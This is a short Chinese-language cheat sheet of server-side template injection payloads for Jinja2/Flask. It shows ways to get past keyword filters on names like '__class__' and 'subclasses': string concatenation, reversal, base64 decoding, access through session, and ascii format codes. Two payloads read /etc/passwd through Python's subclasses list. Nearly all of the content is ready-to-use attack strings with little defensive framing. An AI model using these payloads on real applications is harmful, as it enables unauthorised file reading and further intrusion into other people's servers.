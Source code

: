 
### 过滤了subclasses等字符


```plain
拼凑法
原poc{{"".class.bases[0].subclasses()}}
绕过{{"".class.bases[0]'subcla'+'sses'}}
Plain Text
```



### 过滤class


```plain
使用sessionpoc{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}多个bases[0]是因为一直在向上找object类。使用mro就会很方便
Plain Text
```






### 过滤关键字


```plain
base64编码绕过(编码的话我隐约记得py3好像用不了)
__getattribute__使用实例访问属性时,调用该方法
例如被过滤掉__class__关键词
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
字符串拼接绕过
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}
Plain Text
```



字符串拼接


**1、拼接**


"cla"+"ss"


**2、反转**


"__ssalc__"[::-1]


**3.ascii转换**


```plain
"{0:c}".format(97)='a'"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
Plain Text
```
